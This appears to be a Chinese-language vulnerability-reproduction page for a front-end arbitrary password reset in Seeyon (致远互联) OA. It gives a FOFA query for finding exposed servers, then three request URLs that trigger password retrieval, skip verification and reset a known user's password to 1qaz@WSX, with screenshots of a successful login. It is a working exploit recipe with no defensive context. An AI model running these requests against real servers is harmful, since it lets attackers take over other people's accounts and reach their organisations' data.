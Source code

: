 ## 致远前台任意用户密码修改

## fofa
```
app="致远互联-OA"
```

## 漏洞复现
前提需要知道用户名

`http://xx.xx.xx.xx/seeyon/personalBind.do?method=retrievePassword`

<img width="1057" alt="image-20240301101704702" src="../../images/9562a165-151e-421c-a26c-7e09bf199368.png">

`http://xx.xx.xx.xx/seeyon/personalBind.do?method=sendVerificationCodeToBindNum&type=validate&origin=zx`

<img width="1047" alt="image-20240301101722837" src="../../images/c1ea9e86-1a92-4aaa-945d-a1a45c83509e.png">

修改密码为`1qaz@WSX`

`http://xx.xx.xx.xx/seeyon/individualManager.do?method=resetPassword&nowpwd=1qaz@WSX`

<img width="1217" alt="image-20240301101802224" src="../../images/5375cccc-0a9b-4ae0-8e3e-177aa67290b1.png">

最后使用修改的密码登录

<img width="1054" alt="image-20240301101840756" src="../../images/261afdc9-a728-4302-96a6-e0e19d02d338.png">
